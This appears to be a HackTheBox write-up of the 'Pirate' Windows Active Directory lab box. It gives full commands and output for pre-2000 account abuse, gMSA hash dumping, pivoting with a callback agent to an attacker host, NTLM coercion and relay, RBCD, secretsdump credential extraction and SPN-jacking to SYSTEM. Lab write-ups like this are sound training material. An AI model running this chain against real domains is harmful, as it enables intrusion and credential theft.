

# HackTheBox — Pirate (Hard, Windows)

---

## Box Info

| Field              | Value                   |
| ------------------ | ----------------------- |
| **Name**           | Pirate                  |
| **OS**             | Windows                 |
| **Difficulty**     | Hard                    |
| **Domain**         | pirate.htb              |
| **DC**             | DC01.pirate.htb         |
| **Starting Creds** | pentest / p3nt3st2025!& |

## Attack Path



---

## Setup

### Hosts & Time Sync

```bash
echo '10.129.x.x DC01.pirate.htb pirate.htb DC01' | sudo tee -a /etc/hosts
sudo ntpdate pirate.htb
```

Kerberos requires hostname resolution and tolerates a maximum 5-minute clock skew. The DC in this box runs with a +7h offset, so `ntpdate` is required before every Kerberos operation. Without it, you'll hit `KRB_AP_ERR_SKEW` on every `-k` flag.

---

## Reconnaissance

### Credential Validation

Starting credentials provided in the box description: `pentest / p3nt3st2025!&`

```bash
nxc smb pirate.htb -u 'pentest' -p 'p3nt3st2025!&'     # ✅ SMB
nxc ldap pirate.htb -u 'pentest' -p 'p3nt3st2025!&'     # ✅ LDAP — signing:None, channel binding:Never
nxc winrm pirate.htb -u 'pentest' -p 'p3nt3st2025!&'    # ❌ WinRM denied
```

The critical takeaway here is that LDAP signing is **disabled**. This opens the door for NTLM relay to LDAP later.

### Domain Users

```bash
nxc ldap pirate.htb -u 'pentest' -p 'p3nt3st2025!&' --users
```

Interesting accounts: `a.white` paired with `a.white_adm` — a classic privilege separation pattern where the regular account often has reset permissions over the admin account.

### Kerberoasting

```bash
nxc ldap pirate.htb -u 'pentest' -p 'p3nt3st2025!&' -k --kerberoasting output.txt
```

Two roastable accounts found: `a.white_adm` and `gMSA_ADFS_prod$`. Neither cracks against rockyou.txt — this is a rabbit hole. Move on.

### BloodHound

```bash
bloodhound-python -dc 'dc01.pirate.htb' -d 'pirate.htb' -u 'pentest' -p 'p3nt3st2025!&' -ns $IP --zip -c All
```

BloodHound reveals the full attack path:
- `pentest` → member of **Pre-Windows 2000 Compatible Access** (via Authenticated Users)
- `MS01$` → **ReadGMSAPassword** on `gMSA_ADFS_prod$`
- `a.white_adm` → **Constrained Delegation** to `HTTP/WEB01.pirate.htb`
- `a.white_adm` → **WriteSPN** on both DC01 and WEB01

---

## Enumeration

### Pre-Windows 2000 Computer Accounts

When computer accounts are created with "pre-Windows 2000 compatibility," their default password is the lowercase computer name without the `$`. NetExec has a dedicated module for this:

```bash
nxc ldap pirate.htb -u 'pentest' -p 'p3nt3st2025!&' -M pre2k
```

```
PRE2K    Pre-created computer account: MS01$
PRE2K    Pre-created computer account: EXCH01$
PRE2K    [+] Successfully obtained TGT for ms01@pirate.htb
PRE2K    [+] Successfully obtained TGT for exch01@pirate.htb
```

Both `MS01$` and `EXCH01$` have default passwords. If you try these over SMB, you'll get `STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT` — that's not a failure, it means the password is correct but the account type can't do interactive SMB logons. Use Kerberos instead.

### gMSA Password Extraction

`MS01$` is authorized to read gMSA passwords (member of "Domain Secure Servers"). NTLM over LDAP fails due to channel binding, so Kerberos is required:

```bash
impacket-getTGT 'pirate.htb/MS01$:ms01'
export KRB5CCNAME=MS01\$.ccache
nxc ldap dc01.pirate.htb -u 'MS01$' -p 'ms01' -k --gmsa
```

```
Account: gMSA_ADCS_prod$    NTLM: 25c7f0eb586ed3a91375dbf2f6e4a3ea
Account: gMSA_ADFS_prod$    NTLM: fd9ea7ac7820dba5155bd6ed2d850c09
```

Two service account hashes. `gMSA_ADFS_prod$` is a member of **Remote Management Users** — that's our way in.

### Internal Network Discovery

After gaining a shell on DC01 (see Exploitation), `ipconfig` reveals a second interface:

```
vEthernet (Switch01): 192.168.100.1/24
```

WEB01 sits at 192.168.100.2 — only reachable from DC01. We need to pivot.

---

## Exploitation

### Initial Foothold — WinRM to DC01

```bash
evil-winrm -i 10.129.x.x -u 'gMSA_ADFS_prod$' -H 'fd9ea7ac7820dba5155bd6ed2d850c09'
```

We land on DC01 as `gMSA_ADFS_prod$`. No admin privileges, but we have network access to the internal 192.168.100.0/24 subnet.

### Pivoting with Ligolo-ng

```bash
# Attack box — create TUN interface and start proxy
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up
./proxy -selfcert -laddr 0.0.0.0:11601
```

```powershell
# DC01 — upload and run agent
upload /path/to/agent.exe
.\agent.exe -connect 10.10.x.x:11601 -ignore-cert
```

```bash
# Attack box — select session in ligolo, start tunnel, add route
sudo ip route add 192.168.100.0/24 dev ligolo
```

WEB01 is now reachable directly from our attack box. Verify with `nxc smb 192.168.100.2` — note that SMB signing is **disabled** on WEB01.

### NTLM Coercion & Relay

The attack: coerce WEB01 to authenticate to us, relay those credentials to LDAP on DC01 (where signing is disabled), and use the relayed session to configure RBCD.

**Start the relay:**

```bash
sudo ntlmrelayx.py -t ldap://DC01.pirate.htb -i --delegate-access -smb2support --remove-mic
```

The `--remove-mic` flag strips the NTLM Message Integrity Code, allowing SMB→LDAP relay despite integrity requirements. The `-i` flag spawns an interactive LDAP shell on success.

**Trigger coercion:**

```bash
nxc smb 192.168.100.2 -u 'gMSA_ADFS_prod$' -H 'fd9ea7ac7820dba5155bd6ed2d850c09' -M coerce_plus -o LISTENER=10.10.x.x
```

```
COERCE_PLUS    Exploit Success, lsarpc\EfsRpcAddUsersToFile
COERCE_PLUS    Exploit Success, spoolss\RpcRemoteFindFirstPrinterChangeNotificationEx
```

Multiple coercion methods land. The relay catches the authentication:

```
[*] Authenticating connection from PIRATE/WEB01$@10.129.x.x against ldap://DC01.pirate.htb SUCCEED
[*] Started interactive Ldap shell via TCP on 127.0.0.1:11000
```

### RBCD Configuration

Connect to the spawned LDAP shell and set up Resource-Based Constrained Delegation:

```bash
nc 127.0.0.1 11000
```

```
# start_tls
StartTLS succeded, you are now using LDAPS!

# add_computer ATTACKER$
Adding new computer with username: ATTACKER$ and password: ~0G1;#$If,ukl^l result: OK

# set_rbcd WEB01$ ATTACKER$
Delegation rights modified successfully!
ATTACKER$ can now impersonate users on WEB01$ via S4U2Proxy
```

`start_tls` upgrades to encrypted LDAP (required for adding computer objects). The RBCD configuration tells WEB01: "trust ATTACKER$ to impersonate any user when accessing your services."

### S4U2Proxy — Administrator on WEB01

```bash
impacket-getST 'pirate.htb/ATTACKER$:~0G1;#$If,ukl^l' \
  -spn HTTP/WEB01.pirate.htb \
  -impersonate Administrator \
  -dc-ip 10.129.x.x
```

```
[*] Saving ticket in Administrator@HTTP_WEB01.pirate.htb@PIRATE.HTB.ccache
```

```bash
export KRB5CCNAME=Administrator@HTTP_WEB01.pirate.htb@PIRATE.HTB.ccache
evil-winrm -i WEB01.pirate.htb -r PIRATE.HTB -K $KRB5CCNAME
```

Administrator shell on WEB01. User flag is in `C:\Users\a.white\Desktop\user.txt`.

---

## Privilege Escalation

### Credential Extraction — secretsdump

From our Administrator access on WEB01, dump all stored credentials remotely:

```bash
impacket-secretsdump -k -no-pass WEB01.pirate.htb
```

The LSA Secrets section reveals a DefaultPassword entry — `a.white` was configured for auto-logon on WEB01, storing the plaintext password in the registry:

```
[*] DefaultPassword
PIRATE\a.white:E2nvAOKSz5Xz2MJu
```

We also recover WEB01$'s machine account hash (`feba09cf0013fbf5834f50def734bca9`), which is needed later for SPN manipulation.

### Password Reset — a.white → a.white_adm

`a.white` has delegated password reset rights over `a.white_adm`:

```bash
bloodyAD -d pirate.htb -u a.white -p 'E2nvAOKSz5Xz2MJu' --host DC01.pirate.htb set password 'a.white_adm' 'NewP@ss2026!'
```

```
[+] Password changed successfully!
```

Verify the delegation configuration:

```bash
nxc ldap DC01.pirate.htb -u a.white_adm -p 'NewP@ss2026!' --find-delegation
```

```
a.white_adm    Person    Constrained w/ Protocol Transition    http/WEB01.pirate.htb, HTTP/WEB01
```

`a.white_adm` can impersonate users to `HTTP/WEB01.pirate.htb` and has **WriteSPN** on both DC01 and WEB01. This is the setup for SPN-jacking.

### SPN-Jacking

The constrained delegation is locked to `HTTP/WEB01.pirate.htb` — that only resolves to WEB01, which we already own. The trick: SPNs are just AD attributes. Move the SPN to DC01, and Kerberos will issue tickets encrypted with DC01's key instead.

**Remove SPN from WEB01:**

`spn_remove.ldif`:
```
dn: CN=WEB01,CN=Computers,DC=pirate,DC=htb
changetype: modify
delete: servicePrincipalName
servicePrincipalName: HTTP/WEB01.pirate.htb
-
delete: servicePrincipalName
servicePrincipalName: HTTP/WEB01
```

```bash
ldapmodify -x -H ldap://DC01.pirate.htb -D "PIRATE\\a.white_adm" -w 'NewP@ss2026!' -f spn_remove.ldif
```

**Add SPN to DC01:**

`spn_add.ldif`:
```
dn: CN=DC01,OU=Domain Controllers,DC=pirate,DC=htb
changetype: modify
add: servicePrincipalName
servicePrincipalName: HTTP/WEB01.pirate.htb
```

```bash
ldapmodify -x -H ldap://DC01.pirate.htb -D "PIRATE\\a.white_adm" -w 'NewP@ss2026!' -f spn_add.ldif
```

Now `HTTP/WEB01.pirate.htb` resolves to DC01. Kerberos doesn't validate whether the SPN "belongs" on that object — it just looks up the mapping.

**Request Administrator ticket with altservice:**

```bash
getST.py PIRATE.HTB/a.white_adm:'NewP@ss2026!' \
  -spn HTTP/WEB01.pirate.htb \
  -impersonate Administrator \
  -dc-ip 10.129.x.x \
  -altservice CIFS/DC01.pirate.htb
```

```
[*] Changing service from HTTP/WEB01.pirate.htb@PIRATE.HTB to CIFS/DC01.pirate.htb@PIRATE.HTB
[*] Saving ticket in Administrator@CIFS_DC01.pirate.htb@PIRATE.HTB.ccache
```

The `-altservice` flag changes the service type in the ticket from HTTP to CIFS (file access). This works because the service name in S4U2Proxy tickets isn't protected by the KDC signature — it can be freely modified client-side.

### Domain Admin

```bash
export KRB5CCNAME=Administrator@CIFS_DC01.pirate.htb@PIRATE.HTB.ccache
psexec.py -k -no-pass DC01.pirate.htb
```

```
C:\Windows\system32> whoami
nt authority\system
```

Root flag at `C:\Users\Administrator\Desktop\root.txt`.

---

## Flags

| Flag         | Location                                  |
| ------------ | ----------------------------------------- |
| **user.txt** | `C:\Users\a.white\Desktop\` on WEB01      |
| **root.txt** | `C:\Users\Administrator\Desktop\` on DC01 |

---

## Tools

| Tool              | Purpose                                                    |
| ----------------- | ---------------------------------------------------------- |
| netexec (nxc)     | SMB/LDAP enumeration, gMSA reading, coercion, pre2k module |
| impacket suite    | getTGT, getST (delegation abuse), secretsdump, psexec      |
| evil-winrm        | WinRM remote shells                                        |
| ligolo-ng         | Network pivoting                                           |
| ntlmrelayx.py     | NTLM relay with RBCD setup                                 |
| bloodyAD          | AD object manipulation (password reset)                    |
| ldapmodify        | SPN manipulation via LDIF                                  |
| bloodhound-python | AD attack path enumeration                                 |
| ntpdate           | Kerberos clock synchronization                             |
